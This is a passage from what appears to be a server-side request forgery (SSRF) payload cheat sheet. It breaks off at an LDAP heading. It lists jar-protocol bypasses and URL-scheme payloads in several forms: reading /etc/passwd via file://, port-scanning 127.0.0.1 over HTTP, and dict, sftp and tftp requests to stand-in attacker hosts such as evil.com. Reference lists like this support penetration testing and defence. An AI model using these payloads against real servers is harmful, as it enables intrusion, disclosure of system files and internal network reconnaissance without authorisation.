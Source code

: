 ## **Bypassing using jar protocol (java only)**

Blind SSRF

`jar:scheme://domain/path!/ 
jar:http://127.0.0.1!/
jar:https://127.0.0.1!/
jar:ftp://127.0.0.1!/`

## **SSRF exploitation via URL Scheme**

### **File**

Allows an attacker to fetch the content of a file on the server

`file://path/to/file
file:///etc/passwd
file://\/\/etc/passwd
ssrf.php?url=file:///etc/passwd`

### **HTTP**

Allows an attacker to fetch any content from the web, it can also be used to scan ports.

`ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443`

### **Dict**

The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:

`dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/`

### **SFTP**

A network protocol used for secure file transfer over secure shell

```
ssrf.php?url=sftp://evil.com:11111/
```

### **TFTP**

Trivial File Transfer Protocol, works over UDP

```
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
```

### **LDAP**
